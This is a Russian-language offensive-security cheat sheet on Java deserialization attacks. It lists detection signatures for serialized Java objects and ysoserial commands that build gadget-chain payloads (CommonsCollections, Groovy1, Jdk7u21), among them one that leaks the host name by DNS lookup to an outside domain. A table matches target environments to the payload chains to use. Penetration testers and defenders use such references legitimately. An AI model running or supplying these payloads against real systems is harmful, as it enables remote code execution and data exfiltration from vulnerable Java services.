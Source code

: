 * [Обнаружение](#Обнаружение)
* [Инструменты](#Инструменты)
  * [Ysoserial](#Ysoserial)
  * [Расширения Burp с использованием ysoserial](#Расширения-Burp-с-использованием-ysoserial)
  * [Альтернативные инструменты](#Альтернативные-инструменты)
* [Десериализация YAML](#Десериализация-YAML)
* [ViewState](#ViewState)
* [Ссылки](#URL)

# Десериализация Java

> Сериализация Java — это процесс преобразования состояния объекта Java в поток байтов, который можно сохранить или передать, а затем восстановить (десериализовать) обратно в исходный объект.
>> Сериализация в Java в основном выполняется с помощью интерфейса Serializable, который помечает класс как сериализуемый, что позволяет сохранять его в файлы, отправлять по сети или передавать между виртуальными машинами Java.

# Обнаружение

* "AC ED 00 05" в шестнадцатеричном формате
  * AC ED: STREAM_MAGIC. Указывает, что это протокол сериализации.
  * 00 05: STREAM_VERSION. Версия сериализации.
* "rO0" в Base64
* Content-Type = "application/x-java-serialized-object"
* "H4sIAAAAAAAAAJ" в gzip(base64)

# Инструменты

## **Ysoserial**

[frohoff/ysoserial](https://github.com/frohoff/ysoserial): инструмент для экспериментальной генерации полезных данных, использующих небезопасную десериализацию объектов Java.

```
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[удалено]' | gzip | base64

java --add-opens java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
     --add-opens java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
     --add-opens java.xml/com.sun.org.apache.xalan.internal.xsltc=ALL-UNNAMED \
     -jar ysoserial.jar CommonsCollections4 "command"
```
| Ситуация | Рекомендуемые payload | Примечания |
|----------|---------------------|------------|
| Неизвестная среда | URLDNS, CommonsBeanutils1 | Начать с теста |
| Commons Collections 3.x | CommonsCollections1, 5, 6, 7 | Самые стабильные |
| Commons Collections 4.x | CommonsCollections2, 4 | Для версии 4.0 |
| Spring приложение | Spring1, Spring2 | Требует Spring в classpath |
| Java 7 | Jdk7u21 | Специфичный для Java 7 |
| Ограниченная среда | Clojure, Groovy1 | Если есть соответствующие библиотеки |
| Modern Java | CommonsCollections4 с --add-opens | Java 11+ |
